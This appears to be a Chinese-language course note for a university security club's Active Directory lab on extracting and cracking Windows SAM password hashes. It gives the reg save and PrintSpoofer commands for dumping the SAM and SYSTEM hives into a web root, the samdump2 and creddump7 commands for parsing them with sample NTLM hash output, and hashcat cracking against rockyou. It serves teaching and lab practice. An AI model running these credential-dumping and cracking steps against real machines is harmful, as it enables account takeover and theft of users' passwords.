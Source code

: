 ```yaml
---
title: NTUSTISC - AD Note - Lab(Brute Force SAM)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/3. 更多密碼"
---
```


# NTUSTISC - AD Note - Lab(Brute Force SAM)
<!-- more -->
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=l1na5hFGpAPk6Uux&t=4257)

## Background
得到更高權限之後，會想要更多的密碼
* 密碼收集
    * SAM.hive(Security Account Manager)
        * What: 就是一個用於windows的數據庫文件，用於==儲存用戶的密碼==，並且對於本地端或遠端的使用者進行身分認證
        * Where: `C:\Windows\System32\config\SAM`
    * Password Spraying(用猜的)
    * GPO
    * 記憶體(lsass)

## Lab

### ==Brute Force SAM==
前面有提到SAM在哪裡，所以只要直接打開就看的到密碼了嗎?你會得到一個access denied的錯誤，原因是他已經被設定成read lock了，導致目前無法正常存取
![](https://hackmd.io/_uploads/SyEUVnMRn.png)

1. 匯出SAM File
主要目的就是把SAM file和SYSTEM file dump下來，而方法就是利用reg.exe(Windows註冊碼工具)，用指令的方式存取
    ```bash!
    $ reg save HKLM\SAM <save filename>
    $ reg save HKLM\SYSTEM <save filename>
    ```
    * 錯誤的方式
        但經過cmd用普通權限實測會發現我們沒有這樣的資格
        ```bash!
        $ reg save HKLM\SAM SAM.dump
        錯誤: 用戶端沒有這項特殊權限。
        ```
        其實也很合理，不然所有人都可以直接存取意味著只要摸到其中一臺普通權限的AD，所有機敏資料都會外洩，這就是為甚麼前面需要提權的原因，只有最高權限的帳戶可以存取這兩個file
    * 正確的方式-1
        用前面提到的web shell，打出以下指令，則SAM file就會dump到`C:\inetpub\wwwroot\sam.zip`
        ```bash!
        $ c:\tools\PrintSpoofer64.exe -c "reg save HKLM\SAM C:\inetpub\wwwroot\sam"
        ```
    * 正確的方式-2
        利用[Invoke-NinjaCopy.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-NinjaCopy.ps1)這個腳本，就可以複製出來，原理是使用windows的影子複製
        ```bash!
        $ .\Invoke-NinjaCopy -Path SAM -LocalDestination C:\tools\SAM_COPY
        ```
        但是經過實測，發現執行雖然有成功但是沒有任何檔案被dump出來，可能中間有些過程有誤?
        :::info
        如果要用這個方法，PowerShell要以管理員權限打開，然後如果有遇到如下error message，可以參考這邊[^ps-error-solution]解決問題
        ```bash
        .\Invoke-NinjaCopy : 因為這個系統上已停用指令碼執行，所以無法載入 C:\tools\Invoke-NinjaCopy.ps1 檔案。如需詳細資訊，請參閱 about_Execution_Policies，網址為 https:/go.microsoft.com/fwlink/?LinkID=135170。
        位於 線路:1 字元:1
        + .\Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestina ...
        + ~~~~~~~~~~~~~~~~~~
            + CategoryInfo          : SecurityError: (:) [], PSSecurityException
            + FullyQualifiedErrorId : UnauthorizedAccess
        ```
        :::
2. 解析SAM內容
    拿到SAM的內容之後還需要解析他，可以用kali的samdump2解析
    * Win10 v1607之前的解法
        ```bash
        $ samdump2 system sam 
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        *disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        *disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        *disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        user:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        :1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        ```
        ![](https://hackmd.io/_uploads/HyJXHazCn.png)
        可以看到很多都是disabled，就代表我們要用下面的解法
    * Win10 v1607之後
    因為這個版本之後有用到AES加密，所以可以用[Creddump7](https://github.com/CiscoCXSecurity/creddump7)，建議使用anaconda這樣的虛擬環境，不然直接用內建的virtualenv會出事，
        ```bash
        $ conda activate py2.7
        $ pip install pycrypto
        $ git clone https://github.com/CiscoCXSecurity/creddump7.git
        $ python pwdump.py system sam
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:7ecffff0c3548187607a14bad0f88bb1:::
        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e3180c5331aad6ad1ac787749e6c4819:::
        user:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        low:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        ```
3. 解析Hash
    * 方法一：用online database
        接著就是把NTLM Hash丟到隨便的database看有沒有紀錄，例如[cmd5](https://www.cmd5.com/)，如果把最前面找到的`31d6cfe0d16ae931b73c59d7e0c089c0`會顯示空密碼，但我們都知道是錯的
        ![](https://hackmd.io/_uploads/SkKrp6zCn.png)
        而如果拿Creddump解析出來的`7ecffff0c3548187607a14bad0f88bb1`，就可以直接顯示出我們的密碼
        ![](https://hackmd.io/_uploads/H1ZAhpz02.png)
    * 方法二：爆字典檔
        在kali中的/usr/share/wordlists有一些字典檔可以用，例如rockyou等等，可以先用看看
        ```bash
        $ sudo gunzip /usr/share/wordlists/rockyou.txt.gz
        $ cp /usr/share/wordlists/rockyou.txt ./
        $ hashcat -a 0 -m 1000 ntlm.hash rockyou.txt --force
        ...
        31d6cfe0d16ae931b73c59d7e0c089c0:                         
        7ecffff0c3548187607a14bad0f88bb1:1qaz@WSX3edc
        ...
        ```

# Reference
[^ps-error-solution]:[PowerShell 「系統上已停用指令碼執行」解決方法](https://hackercat.org/windows/powershell-cannot-be-loaded-because-the-execution-of-scripts-is-disabled-on-this-system)